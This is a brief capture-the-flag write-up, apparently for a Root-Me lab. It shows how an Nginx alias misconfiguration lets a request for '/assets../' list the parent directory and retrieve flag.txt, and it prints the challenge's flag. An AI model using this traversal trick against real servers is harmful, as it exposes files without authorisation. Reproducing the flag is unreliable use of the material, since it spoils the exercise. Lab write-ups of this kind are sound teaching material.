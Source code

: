 ```yaml
---
layout: default
title: Nginx-Alias-Misconfiguration
---
```


Here, we look in the source code and can find this:
`<!--TODO: Patch /assets/ -->`, So, let's go there.

Next, we request this url: `http://challenge01.root-me.org:59092/assets../`
We get's as a repsone:
```
Index of /assets../
../
assets/                                            24-Oct-2024 12:25                   -
static/                                            24-Oct-2024 12:25                   -
flag.txt                                           04-Sep-2024 12:20                  25
```

Here is found the alias misconfigurtion. Basiccly, `/assets/` is being tranlated to `/www/var/static/`, or something like this, to keep me in the sand box. 
However, becuase I gave `/assets../`, It somehow brakes it and might take me to `/www/var`, where i can see all the files. 

Okay, let's go here: `http://challenge01.root-me.org:59092/assets../flag.txt` and view the flag, which is: `RM{4lias_M1sC0nf_HuRtS!}`

**Flag:** **_`RM{4lias_M1sC0nf_HuRtS!}`_**
